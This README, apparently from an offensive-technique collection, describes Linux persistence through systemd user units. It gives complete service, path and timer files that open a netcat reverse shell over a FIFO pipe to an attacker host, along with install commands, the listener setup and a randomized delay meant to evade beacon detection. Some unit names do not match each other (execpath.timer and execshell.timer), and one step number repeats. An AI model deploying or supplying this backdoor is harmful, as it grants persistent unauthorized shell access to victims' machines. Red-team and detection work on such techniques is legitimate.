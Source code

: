 # Proxy Initialization

## Description

This sequence of commands sets up a scheduled task, much like the better-known `cron` jobs, to execute
a reverse shell using a FIFO pipe located at `/tmp/backpipe` indirectly via a path-based unit.

The service file (`revshell.service`) uses:

* The `Environment` directive to set up the remote host and port to connect to
* The `ExecStartPre` directive to check fo the FIFO pipe and create it if it does not exist
* The `ExecStart` directive to execute the backdoor sequence (more info on how it works located in the linked blog below)

The path file (`execshell.path`) uses:

* The `PathExists` directive to monitor a path that should always exist - `/etc/passwd`
* The `Unit` directive to identify the unit file to execute when the path directive has been validated

The timer file (`execshell.timer`) uses:

* The `AccuracySec` directive to align service execution with the wider system
* The `OnCalendar` directive to execute the specified unit at the start of every minute
* The `Unit` directive to identify the unit file to execute when the timer is triggered
* The `RandomizedDelaySec` to avoid simple beacon detections
* The `Persistent` directive to reactivate this timer immediately if it missed previous activations

## Additional Notes

* The path `/etc/passwd` was chosen here because we can assume it will reliably exist on all Linux systems
* This is a modified version of the [ScheduledReverseShell](../ScheduledReverseShell) example;
  it is only meant to provide a way to avoid simple detections, much like how
  proxying binary execution through `rundll32.exe` works on Windows.
* Stopping all components reveals the dependency order between them:

  ```sh
  $ systemctl --user stop revshell.service
  Warning: Stopping revshell.service, but it can still be activated by:
    execshell.path
  $ systemctl --user stop execshell.path
  Warning: Stopping execshell.path, but it can still be activated by:
    execpath.timer
  $ systemctl --user stop execpath.timer
  $
  ```

## Step by Step

1. Stand up listener on attacker server

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
```

2. Generate a service file to create the backdoor on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Service]
; only consider this service up if the ExecStart directive succeeds
; (just to show some variety when compared to ScheduledReverseShell's revshell.service)
Type=exec
; https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
Environment=RHOST="10.10.10.10" RPORT="4444"
ExecStartPre=/bin/sh -c "find /tmp/backpipe || mknod --mode=0666 /tmp/backpipe p"
ExecStart=/bin/sh -c "/bin/sh 0</tmp/backpipe | /bin/nc ${RHOST} ${RPORT} 1>/tmp/backpipe"
```

3. Generate a path file to execute the backdoor on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.path.html
[Path]
PathExists=/etc/passwd
Unit=revshell.service
```

4. Generate a timer file to execute the path unit at regular intervals (every minute in our case)

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.timer.html
[Timer]
AccuracySec=1s
OnCalendar=*-*-* *:*:00
Unit=execshell.path
RandomizedDelaySec=4s
Persistent=true
```

4. Install into the systemd user folder on the victim and reload the units

```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/execpath.timer ~/.config/systemd/user/
$ ln -s `pwd`/execshell.path ~/.config/systemd/user/
$ ln -s `pwd`/revshell.service ~/.config/systemd/user/
$ systemctl --user daemon-reload
```

5. Start the scheduled task

```sh
$ systemctl --user start execshell.timer
```

6. Wait for the shell!

```sh
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [${attacker}] from (UNKNOWN) [${victim}]
```
